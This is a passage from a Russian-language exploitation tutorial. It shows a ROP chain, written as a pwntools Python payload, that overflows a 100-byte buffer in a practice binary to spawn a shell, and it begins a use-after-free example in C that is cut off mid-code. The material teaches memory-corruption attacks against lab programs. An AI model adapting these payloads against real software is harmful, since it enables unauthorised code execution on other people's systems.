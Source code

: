 Функция `read` позволяет записать 200 байт в буфер размером 100 байт, что вызывает переполнение. Однако из-за DEP мы не можем просто записать shellcode в стек и передать на него управление.

#### Шаги эксплуатации с ROP:

1. **Анализ бинарника**: Используем Ghidra или IDA Pro, чтобы найти полезные гаджеты — короткие последовательности инструкций, заканчивающиеся на `ret`.
2. **Построение ROP-цепочки**: Находим гаджеты для выполнения системных вызовов, например, для вызова `execve("/bin/sh", 0, 0)`.
3. **Определение смещения**: Находим смещение до адреса возврата, как в примере с переполнением буфера.
4. **Создание payload**: Формируем цепочку гаджетов, чтобы выполнить нужные инструкции.

#### Пример ROP-цепочки (упрощенный):

- Гаджет 1: `pop eax; ret` — загружает значение в EAX.
- Гаджет 2: `pop ebx; ret` — загружает значение в EBX.
- Гаджет 3: `int 0x80` — выполняет системный вызов.

Payload будет состоять из адресов этих гаджетов и данных, которые они загружают.

#### Пример payload (Python с pwntools):

```python
from pwn import *

p = process('./rop_example')
offset = 112  # Смещение до адреса возврата
rop_chain = [
    0x080485b6,  # Адрес гаджета: pop eax; ret
    0xb,         # Значение для EAX (номер системного вызова execve)
    0x0804867c,  # Адрес гаджета: pop ebx; ret
    0x0804a01c,  # Адрес строки "/bin/sh"
    0x080487a3,  # Адрес гаджета: int 0x80
]
payload = b"A" * offset + b"".join([p32(addr) for addr in rop_chain])
p.sendline(payload)
p.interactive()
```

Этот payload выполнит системный вызов `execve("/bin/sh", 0, 0)`, открывая shell.

---

### Пример 4: Эксплуатация уязвимости кучи (use-after-free)

Теперь рассмотрим уязвимость use-after-free в программе, работающей с кучей.

```c
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    void (*func)();
    char data[100];
} Object;

void secret_function() {
    system("/bin/sh");
}

int main() {
    Object* obj1 = malloc(sizeof(Object));
    obj1->func = secret_function;
    
    Object* obj2 = malloc(sizeof(Object));
    obj2->func = puts;
```